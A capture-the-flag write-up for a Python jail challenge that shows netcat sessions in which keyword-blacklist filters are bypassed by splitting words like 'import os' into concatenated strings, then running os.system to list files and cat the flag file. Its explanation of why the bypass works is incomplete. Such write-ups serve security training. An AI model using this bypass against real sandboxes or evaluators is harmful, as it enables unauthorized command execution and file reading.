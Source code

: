 # genericpyjail - 50pt (180 solves)

```
Written by: dns

When has a blacklist of insecure keywords EVER failed?

nc chall2.2019.redpwn.net 6006
```

This challenge we have python sand box escape mission.
We are running inside a python program and our mission is to escape to the shell OS or to execute our code in order to read the flag file.
We starts with `blacklist.txt` file that contains black list key words (WE CAN NOT USE THEM).
Connect to the server `nc chall2.2019.redpwn.net 6006` and start fuzzing:
```
tom@DESKTOP-AMN3CC9:/mnt/c/Windows/System32$ nc chall2.2019.redpwn.net 6006
wow! there's a file called flag.txt right here!
>>> 5
>>> '4'
>>> hello
Traceback (most recent call last):
  File "jail1.py", line 49, in <module>
    data = eval(data)
  File "<string>", line 1, in <module>
NameError: name 'hello' is not defined
```
From the error message we are able to see part of the code:
```
data = eval(data)
```
`data` it's probably our input.
So, we can send to the server python code, the server will check if our data doesn't contains black list key words, and will execute our commands if everything is OK.
**WE NEED TO READ FILE CALLED flag.txt** so we need to import os module, and execute `os.system('cat flag.txt')` to read the flag.
Limitations:
1.	We can't use `import`, `os` words in our commands
```
wow! there's a file called flag.txt right here!
>>> import os
That's not allowed here
>>>
```
but we can separate our payload, and there will not be any black list word, something like this: `"impor" + "t o" + "s"` == `"import os"`
```
wow! there's a file called flag.txt right here!
>>> "impor" + "t o" + "s"
>>>
```
And we successfully bypassed the limitation !!!
Let's import os module and read the file:
```
tom@DESKTOP-AMN3CC9:/mnt/c/Windows/System32$ nc chall2.2019.redpwn.net 6006
wow! there's a file called flag.txt right here!
>>> "impor" + "t o" + "s"
>>> "o" + "s.s" + "ystem('dir')"
bin   dev  flag.txt  jail1.py  lib64  mnt  proc  run   srv  tmp  var
boot  etc  home      lib       media  opt  root  sbin  sys  usr
>>> "o" + "s.s" + "ystem('cat flag.txt')"
flag{bl4ckl1sts_w0rk_gre3344T!}
>>>
```

